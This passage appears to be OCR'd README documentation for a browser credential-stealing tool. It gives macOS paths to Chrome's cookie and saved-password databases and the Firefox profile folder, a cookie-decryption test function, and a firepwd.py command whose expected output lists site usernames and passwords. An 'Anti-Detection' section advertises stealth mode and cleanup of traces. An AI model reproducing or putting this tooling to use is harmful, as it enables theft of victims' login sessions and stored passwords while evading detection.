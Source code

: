 #### macOS:
```python
# Chrome paths
chrome_cookies = "/Users/{username}/Library/Application Support/Google/Chrome/Default/Cookies"
chrome_passwords = "/Users/{username}/Library/Application Support/Google/Chrome/Default/Login Data"

# Firefox paths
firefox_profile = "/Users/{username}/Library/Application Support/Firefox/Profiles/{profile_name}"
```

---

## 🛡️ Security Features

### Encryption Support:
- **AES-256-GCM**: Modern encryption standard
- **3DES-CBC**: Legacy Firefox support
- **PBKDF2**: Key derivation function
- **HMAC-SHA256**: Message authentication

### Anti-Detection:
- **Stealth Mode**: Minimal system footprint
- **Error Handling**: Graceful failure handling
- **Logging**: Optional verbose output
- **Cleanup**: Temporary file removal

---

## 🧪 Testing & Validation

### Test Cookie Decryption:
```python
def test_cookie_decryption():
    processor = CookieProcessor()
    
    # Test data
    test_master_key = "base64_test_key"
    test_encrypted_data = "48656c6c6f20576f726c64"
    
    # Decrypt
    result = processor.decrypt_cookie(test_master_key, test_encrypted_data)
    
    # Validate
    assert result is not None, "Decryption failed"
    print(f"✅ Cookie decryption test passed: {result}")

test_cookie_decryption()
```

### Test Firefox Password Extraction:
```bash
# Test with sample Firefox profile
python firepwd.py -d ./test_firefox_profile -v 2

# Expected output:
# globalSalt: b'...'
# password check? True
# decrypting login/password pairs
# example.com: username, password
```
